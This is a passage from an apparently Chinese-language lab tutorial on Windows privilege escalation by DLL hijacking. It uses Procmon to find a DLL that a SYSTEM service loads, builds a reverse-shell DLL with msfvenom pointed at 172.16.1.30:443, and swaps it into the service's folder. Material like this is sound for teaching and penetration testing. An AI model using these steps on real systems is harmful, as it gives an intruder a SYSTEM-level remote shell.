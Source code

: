 ![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131553386-228400987.png)

Procmon 运行后，我们需要创建一些过滤器（快捷键CTRL + L）：

**Path – ends with – .dll**

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131552731-1515404798.png)

**User – is – NT AUTHORITY\\SYSTEM**

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131553453-666199674.png)

**Proccess Name – is – dllservice.exe**

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131552981-646078918.png)

然后应用这三个过滤器。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131552328-290535866.png)

现在，当我们停止并启动服务时，会看到 hijackme.dll 按预期从应用程序目录成功加载。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131553693-1752492441.png)

Cool！现在可以看到 dllservice 服务成功从应用程序目录加载了那个 DLL。现在，让我们以标准用户 alice 的身份回到反向 shell，并利用这一点获得 SYSTEM shell。

#### **

2.4、制作恶意 DLL

**

接下来，我们就可以制作一个恶意 DLL 来替换合法的 DLL，可以使用以下命令：

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f dll -o hijackme.dll
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131553614-1548129093.png)

待恶意 DLL 制作完成之后，就可以将其传输给受害者了。

#### **

2.5、劫持服务 DLL

**

可以看到，恶意 DLL 文件已送达受害者机器。

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250320131553313-419944284.png)

接下来，我们需要备份原始的“hijackme.dll”文件，然后将恶意 DLL 移动到应用程序目录中。

    mv "C:\Program Files\dllservice\hijackme.dll" "C:\Program Files\dllservice\hijackme.dll.bak"
    
    mv .\hijackme.dll "C:\Program Files\dllservice"
    
